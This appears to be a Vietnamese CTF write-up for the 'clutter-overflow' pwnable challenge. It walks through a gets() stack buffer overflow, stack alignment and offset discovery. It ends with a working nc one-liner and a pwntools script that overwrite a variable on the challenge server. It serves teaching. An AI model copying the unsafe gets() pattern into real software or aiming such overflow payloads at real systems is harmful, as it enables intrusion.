

# clutter-overflow

- **Phân loại:** Pwnable
- **Độ khó:** Easy
- Tool: GDB-peda
- Kiến thức: stack, thanh ghi, stack alignment

## 1. Phân tích bài

1. Source

```cpp
#include <stdio.h>
#include <stdlib.h>

#define SIZE 0x100
#define GOAL 0xdeadbeef

const char* HEADER = 
" ______________________________________________________________________\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \\^ ^ |\n"
"|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \\ ^ _ ^ / |                | \\^ ^|\n"
"| ^/_\\^ ^ ^ /_________\\^ ^ ^ /_\\ | //  | /_\\ ^| |   ____  ____   | | ^ |\n"
"|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|\n"
"| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |\n"
"|^ ^ ^ ^ ^| /     (   \\ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \\|^ ^|\n"
".-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |\n"
"|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\\ |^ ^|\n"
"| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |\n"
"|'.____'_^||/!\\@@@@@/!\\|| _'______________.'|==                    =====\n"
"|\\|______|===============|________________|/|\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\" ||\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"  \n"
"\"\"''\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"";

int main(void)
{
  long code = 0;
  char clutter[SIZE];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);
 	
  puts(HEADER); 
  puts("My room is so cluttered...");
  puts("What do you see?");

  gets(clutter);

  if (code == GOAL) {
    printf("code == 0x%llx: how did that happen??\n", GOAL);
    puts("take a flag for your troubles");
    system("cat flag.txt");
  } else {
    printf("code == 0x%llx\n", code);
    printf("code != 0x%llx :(\n", GOAL);
  }

  return 0;
}

```

b) Nhận xét

- Chúng ta có thể dễ dàng thấy lỗi nằm ở hàm gets, hàm này không kiểm tra số lượng ký tự nhập vào dẫn đến lỗi tràn bộ đệm

## 2. Ý tưởng khai thác

- Khi code có giá trị bằng GOAL (tức là 0xdeadbeef) thì flag sẽ được in ra
- Mỗi khi chương trình chạy thì hệ điều hành sẽ cung cấp cho chương trình một vùng nhớ trên RAM dùng để lưu trữ các biến nội bộ, các giá trị trở về (giá trị của EIP), giá trị các thanh ghi,… gọi là vùng nhớ stack. Ở bài này, mô hình stack  trông như sau:



- Stack ghi từ địa chỉ thấp lên địa chỉ cao (ở đây là từ dưới lên trên) nên ta sẽ ghi 256 ký tự để ghi đè biến clutter, gọi là padding. Sau đó ta cần ghi đè giá trị của biến code thành 0xdeadbeef
- Nhưng vì đây là chương trình 64 bits nên sẽ có sự căn chỉnh stack (stack alignment System V ABI): stack phải được căn chỉnh 16-byte trước khi gọi một hàm khác, tức là giá trị của con trỏ ngăn xếp RSP (stack pointer) phải chia hết cho 16. Ở đây hàm win có hai biến số là clutter chiếm 256 byte và code chiếm 8 byte. Tổng cộng là 264 byte. Nhưng vì 264 không chia hết cho 16 nên thay vì chiếm 264 byte thì hai biến này chiếm 272 byte (0x110 trong hex):


- Vậy vấn đề là clutter chiếm bao nhiêu byte và code chiếm bao nhiêu byte? Vấn đề này sẽ tùy thuộc vào compiler. Có nhiều cách để align stack, compiler nghĩ cách nào tốt thì sẽ chọn cái đó

Ví dụ compiler có thể align như thế này

```
rbp
code
clutter
pad
```

Hoặc thế này (re-ordering variables tại vì nó thích các biến hay access ở gần rbp nhất có thể)

```
rbp
pad
code
clutter
```

Hoặc nếu ta không sử dụng biến code thì một số compiler có thể không alloc biến đó luôn.

Và thậm chí compiler có quyền không thực hiện stack alignment, bù lại performance sẽ bị tệ.

~ ~ Fun note: stack frame cũng chỉ là 1 quy ước để dễ hơn trong việc phân vùng hàm (dọn dẹp dễ hơn, dễ debug hơn). Compiler thích thì nó có quyền bỏ luôn stack frame hoặc tự nghĩ ra 1 cái khác để phân vùng =)))

- Vậy cách tốt nhất là dùng tool để tìm padding

## 3. Tiến hành khai thác

1. Bước 1: Tìm padding bằng công cụ 
- Đầu tiên ta dùng [zerosum0x0: Overflow Exploit Pattern Generator - Online Tool](https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html) để genarate ra 300 ký tự:


- Ta thu được biến code có giá trị 0x6a41396941386941. Dùng CyberChef để dịch ngược sang ký tự ta được ký tự Ai8Ai9Aj:


- Vậy offset (khoảng cách) ở đây là 264:


b) Bước 2: Viết payload

- Payload sẽ gồm 264 padding và giá trị 0xdeadbeef. Trong little-edian thì 0xdeadbeef được viết là \xef\xbe\xad\xde

c) Bước 3: Viết payload

- Cách 1: truyền bằng pipe:
  + Payload:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7\xef\xbe\xad\xde
  + Câu lệnh truyền payload bằng pipe:

```cpp
(echo -ne "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7\xef\xbe\xad\xde"; cat) | nc mars.picoctf.net 31890
```


- Cách 2: dùng file thực thi
+ Ta tạo file python thực thi:

```cpp
from pwn import *

p=remote('mars.picoctf.net', 31890)
payload = b'a'*264 + p64(0xdeadbeef)

p.sendline(payload)
p.interactive()
```


## 4. Kết luận

- Hiểu về cơ chế căn chỉnh stack trên hệ thống 64 bits. Những bài nâng cao sau này sẽ cần dùng kiến thức căn chỉnh stack nhiều hơn
